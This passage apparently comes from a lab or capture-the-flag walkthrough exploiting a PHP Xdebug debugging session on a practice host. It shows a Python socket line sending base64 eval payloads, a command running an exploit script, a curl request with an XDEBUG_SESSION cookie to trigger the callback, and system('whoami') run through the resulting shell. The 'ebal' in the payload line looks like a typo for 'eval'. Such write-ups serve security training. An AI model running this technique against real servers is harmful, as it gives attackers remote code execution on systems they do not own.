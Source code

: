 ```python
conn.sendall(b'ebal -i -- ' + b64encode(data) + b'\x00')
```

Run the exploit:

```text
python3 exploit_shell.py
```

Send a GET request:

```text
curl -s -X GET "http://10.10.10.83/index.php" -H "Cookie: XDEBUG_SESSION=EEEEE"
```

From shell provided with exploit\_shell.py, we send a `whoami` command:

```text
system('whoami')
```

Review the output of **curl**.

